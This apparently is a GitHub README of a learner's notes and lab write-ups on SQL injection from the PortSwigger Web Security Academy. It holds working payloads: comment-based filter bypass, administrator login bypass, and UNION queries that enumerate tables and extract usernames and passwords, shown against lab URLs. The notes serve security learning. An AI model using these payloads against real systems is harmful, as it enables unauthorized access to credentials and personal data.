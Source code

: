 SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. <br>
A successful SQL injection attack can result in unauthorized access to sensitive data, such as: <br>
    Passwords. <br>
    Credit card details. <br>
    Personal user information <br>
Some common SQL injection examples include: <br>
    1.Retrieving hidden data, where you can modify a SQL query to return additional results. <br>
    2.Subverting application logic, where you can change a query to interfere with the application's logic. <br>
    3.UNION attacks, where you can retrieve data from different database tables. <br>
    4.Blind SQL injection, where the results of a query you control are not returned in the application's responses. <br>

```bash 
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Note that ```--``` is a comment indicator in SQL. This means that the rest of the query is interpreted as a comment, effectively removing it. In this example, this means the query no longer includes ```AND released = 1.``` As a result, all products are displayed, including those that are not yet released.

Another attack:
```bash
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
This results in SQL query:
```bash
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
The modified query returns all items where either the category is Gifts, or 1 is equal to 1. As 1=1 is always true, the query returns all items.

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
In this i was asked to perform a SQL injection attack that causes the application to display one or more unreleased products . In this link
```bash
https://0a2a0093037a7ee681e8a21e005c0065.web-security-academy.net/filter?category=Lifestyle
```
I added ```'+OR+1=1--``` to get the information and it worked.

## Lab: SQL injection vulnerability allowing login bypass:
This challenge asked to bypass a login page as administrator so in the username section i added ```administrator'--``` to login as now becuase of ```--``` it will not check the password. This is how i solved the lab.

# Retrieving data from other database tables:
For example, if an application executes the following query containing the user input Gifts:
```bash
SELECT name, description FROM products WHERE category = 'Gifts'
```
An attacker can submit:
```bash
' UNION SELECT username, password FROM users--
```
This causes the application to return all usernames and passwords along with the names and descriptions of products.

# Second-order SQL injection:
```First-order SQL injection``` occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.
```Second-order SQL injection``` occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.


# Examining the database
You can query the version details for the database. Different methods work for different database types. This means that if you find a particular method that works, you can infer the database type. For example, on Oracle you can execute:
```bash
SELECT * FROM v$version
```
You can also identify what database tables exist, and the columns they contain. For example, on most databases you can execute the following query to list the tables:
```bash
SELECT * FROM information_schema.tables
```

## Lab: SQL injection with filter bypass via XML encoding:
To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. I used Burp suite to solve this challenge. with the help of extension i used ```hackvertor``` extension which helped me encode my data to XML format using ```dec_entities/hex_entities.```

## How to prevent SQLi:
You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".

## Lab: SQL injection attack, querying the database type and version on Oracle:
Used Burp suit to query it. I saw when i click category it is query so i can put injection in that first i tried to print all column using ```UNION```
```bash
'+UNION+SELECT+'abc','def'+FROM+dual--
```
After this i saw i can see hidden stuff also so came to know i am in right direction. After this:
```bash
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
It displayed the database version.


## Lab: SQL injection attack, listing the database contents on non-Oracle databases:
in this i need to do a UNION attack to get the table and the column to get find where the username and the password are stored in the datbase it was a non_oracle database i need top refer cheat sheet for it i use 
```bash
https://0ae9005f03bbc1c382e8a7c800cc0009.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+table_name,null+from+information_schema.tables--
```
To display the hidden table. I found one data ```users_fglvqz``` which could contain login information so now i put a link:
```bash
https://0ae9005f03bbc1c382e8a7c800cc0009.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+column_name,null+from+information_schema.columns+where+table_name=%27users_fglvqz%27--
```
i got the column_name that contains the user and pass which was username column was ```username_cwhlov``` and password column was ```password_wbhfsw```.
As now i know the column name also my input was:
```bash
https://0ae9005f03bbc1c382e8a7c800cc0009.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+username_cwhlov,password_wbhfsw+from+users_fglvqz-
```
it displayed the administrator and password.

## Lab: SQL injection attack, listing the database contents on Oracle:
I first decided to print all the table so after seeing the cheat sheet i put the commans:
```bash
https://0af000d4038da6868019bcd9008f0034.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+table_name,null+from+all_tables--
```
i used ```all_tables``` as it is a oracle database.
i now decided to get column from table 
```bash
https://0af000d4038da6868019bcd9008f0034.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+column_name,null+from+all_tab_columns+where+table_name=%27USERS_YVITGQ%27--
```
i got the two column name for the user and password.
```bash
https://0af000d4038da6868019bcd9008f0034.web-security-academy.net/filter?category=Corporate+gifts%27+union+select+EMAIL,PASSWORD_TAIUGS+from+USERS_YVITGQ--
```
after running this i got the password.

## Lab: SQL injection UNION attack, determining the number of columns returned by the query
To determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.
i starting adding the null column
```bash
https://0ae600de03aad8ea82d1519e00ba00ac.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+NULL--
```
I got an error so i starting to get mor null to see the output.
```bash
https://0ae600de03aad8ea82d1519e00ba00ac.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+NULL,null,null--
```
with this i solved the challenge.

## Lab: Blind SQL injection with conditional responses:


